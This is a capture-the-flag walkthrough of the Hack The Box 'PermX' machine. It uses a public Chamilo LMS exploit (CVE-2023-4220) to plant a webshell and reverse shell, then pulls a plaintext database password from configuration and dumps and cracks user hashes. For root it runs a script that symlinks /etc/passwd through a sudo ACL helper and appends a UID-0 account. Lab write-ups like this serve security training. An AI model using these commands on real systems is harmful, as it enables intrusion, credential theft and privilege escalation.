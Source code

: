 ```yaml
---
title: HTB-PermX
draft: false
tags:
  - htb
  - linux
  - easy
---
```

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/permx/PermX.png)

## Information Gathering

`rustscan --addresses permx.htb --range 1-65535`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/permx/image-1.png)

## Enumeration
### HTTP - TCP 80

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/permx/image.png)

`feroxbuster -u http://permx.htb`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/permx/image-2.png)

potential usernames:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/permx/image-3.png)


`ffuf -u http://10.10.11.23 -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -H 'Host: FUZZ.permx.htb' -fw 18`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/permx/image-4.png)

edit `/etc/hosts` again

### lms.permx.htb

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/permx/image-5.png)


admin name:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/permx/image-6.png)

## Exploitation

chamilo 1 exploit:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/permx/image-7.png)

cve-2023-4220

[here](https://github.com/m3m0o/chamilo-lms-unauthenticated-big-upload-rce-poc)

`git clone https://github.com/m3m0o/chamilo-lms-unauthenticated-big-upload-rce-poc`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/permx/image-8.png)

Scanning to check the vulnerability:

`sudo python3 main.py -u http://lms.permx.htb -a scan`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/permx/image-9.png)


`sudo python3 main.py -u http://lms.permx.htb -a webshell`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/permx/image-11.png)


`http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/webshell.php?cmd=whoami`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/permx/image-10.png)

Reverse Shell

`sudo python3 main.py -u http://lms.permx.htb -a revshell`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/permx/image-12.png)

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/permx/image-13.png)

## Privesc: www-data to mtz

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/permx/image-14.png)

Transfer linpeas using Python http server and wget.

/etc/mysql/mariadb.cnf

/var/www/chamilo




-rwxr-xr-x 1 www-data www-data 2603 Aug 31  2023 /var/www/chamilo/main/extra/database.php
-rwxr-xr-x 1 www-data www-data 34969 Aug 31  2023 /var/www/chamilo/plugin/buycourses/database.php
    $paypalTable->addColumn('password', Types::STRING);
        'password' => '',
-rwxr-xr-x 1 www-data www-data 3157 Aug 31  2023 /var/www/chamilo/plugin/customcertificate/database.php
-rwxr-xr-x 1 www-data www-data 1943 Aug 31  2023 /var/www/chamilo/plugin/notebookteacher/database.php
-rwxr-xr-x 1 www-data www-data 29829 Aug 31  2023 /var/www/chamilo/plugin/sepe/database.php

/usr/share/keyrings/ubuntu-archive-removed-keys.gp

/var/www/chamilo/web.config

 /etc/skel/.profile

/var/www/chamilo/app/config/configuration.php

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/permx/image-15.png)

03F6lY3uXAP2bkW8

MySQL port open:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/permx/image-16.png)

mysql -u chamilo -p03F6lY3uXAP2bkW8 -e "SHOW DATABASES;"

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/permx/image-17.png)

mysql -u chamilo -p03F6lY3uXAP2bkW8 -e "SHOW TABLES;" chamilo

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/permx/image-18.png)

mysql -u chamilo -p03F6lY3uXAP2bkW8 -e "SELECT * FROM user;" chamilo

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/permx/image-19.png)

| username | username_canonical | email                  | password                                                               | salt                                |
|----------|--------------------|------------------------|------------------------------------------------------------------------|--------------------------------------|
| admin    | admin              | admin@permx.htb        | $2y$04$1Ddsofn9mOaa9cbPzk0m6euWcainR.ZT2ts96vRCKrN7CGCmmq4ra           | awb0kMoTumbFvi22ojwv.Pg92gFTMOt837kWsGVbJN4 |
| anon     | anon               | anonymous@example.com  | $2y$04$wyjp2UVTeiD/jF4OdoYDquf4e7OWi6a3sohKRDe80IHAyihX0ujdS           | Mr1pyTT.C/oEIPb/7ezOdrCDKM.KHb0nrXAUyIyt/MY |

Remove any leading or trailing whitespace
sed -i 's/^[ \t]*//;s/[ \t]*$//' hash

hashcat -m 3200 hash ~/Downloads/rockyou.txt


![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/permx/image-20.png)

## Privesc: mtz to root
### sudoers
/opt/acl.sh

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/permx/image-21.png)

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/permx/image-22.png)

```bash
#!/bin/bash

if [ "$#" -ne 3 ]; then
    /usr/bin/echo "Usage: $0 user perm file"
    exit 1
fi

user="$1"
perm="$2"
target="$3"

if [[ "$target" != /home/mtz/* || "$target" == *..* ]]; then
    /usr/bin/echo "Access denied."
    exit 1
fi

# Check if the path is a file
if [ ! -f "$target" ]; then
    /usr/bin/echo "Target must be a file."
    exit 1
fi

/usr/bin/sudo /usr/bin/setfacl -m u:"$user":"$perm" "$target"
```

echo "cat /root/root.txt" > /home/mtz/root.sh
chmod +x /home/mtz/root.sh

sudo /opt/acl.sh <user> <permissions> /home/mtz/root.sh

```bash
#!/bin/bash

# Create the soft link in home directory (passes both checks)
ln -sf /etc/passwd /home/mtz/passwd

# Run the script to allow read & write to the /etc/passwd
sudo /opt/acl.sh mtz rw /home/mtz/passwd

# Add a new user with the id of 0 (the password is: 123)
echo 'new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash' >> /etc/passwd

# Remove the link
rm /home/mtz/passwd

# Log in ass the new user
su new
```

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/permx/image-24.png)

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/permx/image-23.png)









## References
- https://github.com/m3m0o/chamilo-lms-unauthenticated-big-upload-rce-poc